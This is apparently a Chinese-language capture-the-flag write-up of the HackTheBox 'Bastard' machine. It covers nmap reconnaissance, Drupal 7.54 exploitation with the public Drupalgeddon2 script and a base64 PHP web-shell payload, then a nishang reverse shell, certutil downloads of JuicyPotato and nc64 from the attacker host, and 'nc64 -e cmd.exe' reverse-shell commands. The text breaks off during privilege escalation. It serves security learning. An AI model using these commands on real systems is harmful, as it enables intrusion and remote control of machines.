



> 本文章以 kali 地址为 10.10.16.46 做演示

# 初始侦察

## nmap 端口扫描

```
┌──(kali㉿kali)-[~/Work/Kali]
└─$ sudo nmap --min-rate 10000 -p- 10.129.6.171 -oA nmap/ports
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-28 08:11 EST
Nmap scan report for 10.129.6.171
Host is up (0.39s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 15.57 seconds
```

## nmap 详细信息扫描

```
┌──(kali㉿kali)-[~/Work/Kali]
└─$ sudo nmap -sT -sC -sV -O -p80,135,49154 10.129.6.171 -oA nmap/detail 
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-28 08:12 EST
Nmap scan report for 10.129.6.171
Host is up (0.22s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Bastard | Bastard
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|2012|Phone|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows Embedded Standard 7 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (89%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (88%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.10 seconds
```

开放了 80、135、49154，详细信息扫描表明靶机跑在 Windows 下的 IIS 7.5上，运行的是 Drupal 7 服务，通过 ping 返回值为 ttl=127 确定为 Windows 操作系统，同时 80 端口暴露出了 includes、LICENSE.txt、robots.txt 等目录。

> Drupal 是一个开源的内容管理系统，由 PHP 编写，主要用于构建和管理复杂网站
## nmap udp 扫描

```
┌──(kali㉿kali)-[~/Work/Kali]
└─$ sudo nmap -sU -Pn --top-ports 20 10.129.6.171 -oA nmap/udp   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-28 08:21 EST
Nmap scan report for 10.129.6.171
Host is up.

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 5.16 seconds
```

没有明确开放的状态，攻击面基本为零，可以后续按需再深入扫描。
## nmap 漏洞脚本扫描

```
┌──(kali㉿kali)-[~/Work/Kali]
└─$ sudo nmap --script=vuln -p80,135,49154 10.129.6.171 -oA nmap/vuln
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-28 08:22 EST
Nmap scan report for 10.129.6.171
Host is up (0.21s latency).

PORT      STATE SERVICE
80/tcp    open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.129.6.171
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.129.6.171:80/
|     Form id: user-login-form
|     Form action: /node?destination=node
|     
|     Path: http://10.129.6.171:80/node?destination=node
|     Form id: user-login-form
|     Form action: /node?destination=node
|     
|     Path: http://10.129.6.171:80/user/password
|     Form id: user-pass
|     Form action: /user/password
|     
|     Path: http://10.129.6.171:80/user/register
|     Form id: user-register-form
|     Form action: /user/register
|     
|     Path: http://10.129.6.171:80/user/
|     Form id: user-login
|     Form action: /user/
|     
|     Path: http://10.129.6.171:80/user
|     Form id: user-login
|_    Form action: /user
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /rss.xml: RSS or Atom feed
|   /robots.txt: Robots file
|   /changelog.txt: Version is
|   /UPGRADE.txt: Drupal file
|   /INSTALL.txt: Drupal file
|   /INSTALL.mysql.txt: Drupal file
|   /INSTALL.pgsql.txt: Drupal file
|   /CHANGELOG.txt: Drupal v1
|   /: Drupal version 7 
|   /README.txt: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /user/: Potentially interesting folder
135/tcp   open  msrpc
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 6080.55 seconds

```

没有新的有价值的东西
## whatweb 探测

通过 whatweb 可以进一步查看到 Drupal 的信息，进一步交叉验证系统和应用的情况。

```
┌──(kali㉿kali)-[~/Work/Kali]
└─$ whatweb 10.129.6.171                                                
http://10.129.6.171 [200 OK] Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Microsoft-IIS/7.5], IP[10.129.6.171], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], Microsoft-IIS[7.5], PHP[5.3.28,], PasswordField[pass], Script[text/javascript], Title[Welcome to Bastard | Bastard], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.3.28, ASP.NET]
```
## web-80 端口渗透

根据 nmap 的扫描结果添加 hosts 记录：

```
┌──(kali㉿kali)-[~/Work/Kali]
└─$ sudo bash -c 'echo "10.129.6.171 drupal.htb" >> /etc/hosts'
[sudo] password for kali: 
                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Work/Kali]
└─$ tail -n 1 /etc/hosts                                
10.129.6.171 drupal.htb
```

浏览器访问 web 界面，如下图：



对于这种大型的内容管理系统，先寻找是否由公开的漏洞利用，首先需要确定 Drupal 的版本、搜寻 Drupal 的默认密码尝试进行登入。在 Drupal 的源码中未发现具体的版本信息，使用弱密码也未能登入成功，访问前面 nmap 扫描暴露出的 robots.txt。

```
┌──(kali㉿kali)-[~/Work/Kali]
└─$ curl -v http://drupal.htb/robots.txt
* Host drupal.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.6.171
*   Trying 10.129.6.171:80...
* Established connection to drupal.htb (10.129.6.171 port 80) from 10.10.16.46 port 38296 
* using HTTP/1.x
> GET /robots.txt HTTP/1.1
> Host: drupal.htb
> User-Agent: curl/8.17.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Content-Type: text/plain
< Last-Modified: Sun, 19 Mar 2017 10:42:44 GMT
< Accept-Ranges: bytes
< ETag: "65e4948a9da0d21:0"
< Server: Microsoft-IIS/7.5
< X-Powered-By: ASP.NET
< Date: Sun, 28 Dec 2025 14:15:21 GMT
< Content-Length: 2189
< 
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html

User-agent: *
Crawl-delay: 10
# CSS, JS, Images
Allow: /misc/*.css$
Allow: /misc/*.css?
Allow: /misc/*.js$
Allow: /misc/*.js?
Allow: /misc/*.gif
Allow: /misc/*.jpg
Allow: /misc/*.jpeg
Allow: /misc/*.png
Allow: /modules/*.css$
Allow: /modules/*.css?
Allow: /modules/*.js$
Allow: /modules/*.js?
Allow: /modules/*.gif
Allow: /modules/*.jpg
Allow: /modules/*.jpeg
Allow: /modules/*.png
Allow: /profiles/*.css$
Allow: /profiles/*.css?
Allow: /profiles/*.js$
Allow: /profiles/*.js?
Allow: /profiles/*.gif
Allow: /profiles/*.jpg
Allow: /profiles/*.jpeg
Allow: /profiles/*.png
Allow: /themes/*.css$
Allow: /themes/*.css?
Allow: /themes/*.js$
Allow: /themes/*.js?
Allow: /themes/*.gif
Allow: /themes/*.jpg
Allow: /themes/*.jpeg
Allow: /themes/*.png
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
* Connection #0 to host drupal.htb:80 left intact
```

发现有 CHANGELOG.txt 文件，访问得到 Drupal 的具体版本为 7.54。

```
┌──(kali㉿kali)-[~/Work/Kali]
└─$ curl -v http://drupal.htb/CHANGELOG.txt | head -n 20
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0   0     0   0     0     0     0  --:--:-- --:--:-- --:--:--     0* Host drupal.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.6.171
*   Trying 10.129.6.171:80...
* Established connection to drupal.htb (10.129.6.171 port 80) from 10.10.16.46 port 42790 
* using HTTP/1.x
> GET /CHANGELOG.txt HTTP/1.1
> Host: drupal.htb
> User-Agent: curl/8.17.0
> Accept: */*
> 
* Request completely sent off
  0     0   0     0   0     0     0     0  --:--:--  0:00:01 --:--:--     0< HTTP/1.1 200 OK
< Content-Type: text/plain
< Last-Modified: Sun, 19 Mar 2017 10:42:44 GMT
< Accept-Ranges: bytes
< ETag: "e45e8b8a9da0d21:0"
< Server: Microsoft-IIS/7.5
< X-Powered-By: ASP.NET
< Date: Sun, 28 Dec 2025 15:00:22 GMT
< Content-Length: 110781
< 
{ [2417 bytes data]
  7 110781   7  775
3Drupal 7.54, 2017-02-01
 -----------------------
 - Modules are now able to define theme engines (API addition:
   https://www.drupal.org/node/2826480).
0- Logging of searches can now be disabled (new option in the administrative
   interface).
 - Added menu tree render structure to (pre-)process hooks for theme_menu_tree()
   (API addition: https://www.drupal.org/node/2827134).
 - Added new function for determining whether an HTTPS request is being served
  (API addition: https://www.drupal.org/node/2824590).
- Fixed incorrect default value for short and medium date formats on the date
  type configuration page.
- File validation error message is now removed after subsequent upload of valid
  file.
- Numerous bug fixes.
- Numerous API documentation improvements.
- Additional performance improvements.
- Additional automated test coverage.

 0  4621     0   0:00:23  0:00:01  0:00:22  4620* Failure writing output to destination, passed 2668 returned 439
  7 110781   7  7753   0     0  4118     0   0:00:26  0:00:01  0:00:25  4117
* closing connection #0
curl: (23) Failure writing output to destination, passed 2668 returned 439
```

## 公开漏洞利用

使用 searchsploit 寻找 Drupal 7.5.4 的公开漏洞。

```
┌──(kali㉿kali)-[~/Work/Kali]
└─$ searchsploit Drupal 7.5                                             
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                                                                                                                                                          | php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                                                                                                                                                           | php/webapps/44355.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)                                                                                                                                                | php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)                                                                                                                                                | php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)                                                                                                                                                   | php/webapps/35150.php
Drupal < 4.7.6 - Post Comments Remote Command Execution                                                                                                                                                                    | php/webapps/3313.pl
Drupal < 7.34 - Denial of Service                                                                                                                                                                                          | php/dos/35415.txt
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                                                                                                                                                   | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                                                                                                                                                   | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)                                                                                                                                                | php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                                                                                                                        | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                                                                                                                    | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                                                                                                                    | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                                                                                                                                           | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                                                                                                                      | php/remote/46510.rb
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                                                                                                                      | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                                                                                                                                                             | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                                                                                                                                                         | php/webapps/46459.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Drupalgeddon 的适配版本不在范围中，可尝试的为 Drupalgeddon2 与 Drupalgeddon3 。

### Drupalgeddon2 利用

下载 searchsploit 检索到的 drupalgeddon2 利用。

```
┌──(kali㉿kali)-[~/Work/Kali]
└─$ searchsploit -m 44449  
  Exploit: Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/44449
     Path: /usr/share/exploitdb/exploits/php/webapps/44449.rb
    Codes: CVE-2018-7600
 Verified: True
File Type: Ruby script, ASCII text
Copied to: /home/kali/Work/Kali/44449.rb


                                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/Work/Kali]
└─$ ls
44449.rb  nmap
```

按照使用说明利用获得初始用户与第一个 flag。

```
┌──(kali㉿kali)-[~/Work/Kali]
└─$ ruby 44449.rb 
Usage: ruby drupalggedon2.rb <target> [--authentication] [--verbose]
Example for target that does not require authentication:
       ruby drupalgeddon2.rb https://example.com
Example for target that does require authentication:
       ruby drupalgeddon2.rb https://example.com --authentication
                                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/Work/Kali]
└─$ ruby 44449.rb http://drupal.htb
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://drupal.htb/
--------------------------------------------------------------------------------
[+] Found  : http://drupal.htb/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo MGJWBSGA
[+] Result : MGJWBSGA
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://drupal.htb/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://drupal.htb/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://drupal.htb/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> 
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> systeminfo
Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 
System Boot Time:          28/12/2025, 3:06:31 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.567 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.580 MB
Virtual Memory: In Use:    515 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.6.171
drupalgeddon2>>
drupalgeddon2>>  type c:\users\dimitris\Desktop\user.txt
d89b289c7eff24c7b2de8cea489cf1e4
```

将 nishang 的 Invoke-PowerShellTcp.ps1复制到工作目录下，编辑脚本在尾部追加 `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.46 -Port 443`

```
┌──(kali㉿kali)-[~/Work]
└─$ nishang 

> nishang ~ Collection of PowerShell scripts and payloads

/usr/share/nishang
├── ActiveDirectory
├── Antak-WebShell
├── Backdoors
├── Bypass
├── Client
├── Escalation
├── Execution
├── Gather
├── Misc
├── MITM
├── nishang.psm1
├── Pivot
├── powerpreter
├── Prasadhak
├── Scan
├── Shells
└── Utility
┌──(kali㉿kali)-[/usr/share/nishang]
└─$ cp Shells/Invoke-PowerShellTcp.ps1 ~/Work/Kali 
                                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[/usr/share/nishang]
└─$ ls ~/Work/Kali 
44449.rb  Invoke-PowerShellTcp.ps1  nmap
```

```
┌──(kali㉿kali)-[~/Work/Kali]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.46 -Port 443' >> Invoke-PowerShellTcp.ps1 
                                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/Work/Kali]
└─$ tail -n 1 Invoke-PowerShellTcp.ps1 
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.46 -Port 443
```

开启监听获得反弹 shell。



## 提权

靶机的操作系统为小于 Windows Server 2019，且开启了 SeImpersonate。可以使用 juicy-potato 提权。

```
PS C:\inetpub\drupal-7.54>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```

将 juicy-potato 与 nc64 下载至靶机，按照提示运行获得 root。

```
PS C:\inetpub\drupal-7.54> 
PS C:\inetpub\drupal-7.54> certutil.exe -urlcache -split -f http://10.10.16.46/JuicyPotato.exe

****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.
PS C:\inetpub\drupal-7.54> PS C:\inetpub\drupal-7.54> 
PS C:\inetpub\drupal-7.54> JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "\\10.10.16.46\share\nc64.exe -e
cmd.exe 10.10.16.46 4444" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
PS C:\inetpub\drupal-7.54> Invoke-PowerShellTcp : The string starting:
At line:1 char:59
+ JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a  <<<< "\\10.10.16.4
6\share\nc64.exe -e
is missing the terminator: ".
At line:128 char:21
+ Invoke-PowerShellTcp <<<<  -Reverse -IPAddress 10.10.16.46 -Port 443
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
   tion
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
   n,Invoke-PowerShellTcp
 
PS C:\inetpub\drupal-7.54> Invoke-PowerShellTcp : The string starting:
At line:1 char:25
+ cmd.exe 10.10.16.46 4444 <<<< " -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D
}
is missing the terminator: ".
At line:128 char:21
+ Invoke-PowerShellTcp <<<<  -Reverse -IPAddress 10.10.16.46 -Port 443
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
   tion
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
   n,Invoke-PowerShellTcp
 

PS C:\inetpub\drupal-7.54> certutil.exe -urlcache -split -f http://10.10.16.46/nc64.exe
****  Online  ****
  0000  ...
  d800
CertUtil: -URLCache command completed successfully.
PS C:\inetpub\drupal-7.54> JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\drupal7.54\nc64.exe -e cmd.exe 10.10.16.46 4444" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
****  Online  ****
  0000  ...
  d800
CertUtil: -URLCache command completed successfully.
PS C:\inetpub\drupal-7.54> Invoke-PowerShellTcp : Bad numeric constant: 9.
At line:128 char:21
+ Invoke-PowerShellTcp <<<<  -Reverse -IPAddress 10.10.16.46 -Port 443
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
   tion
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
   n,Invoke-PowerShellTcp
 

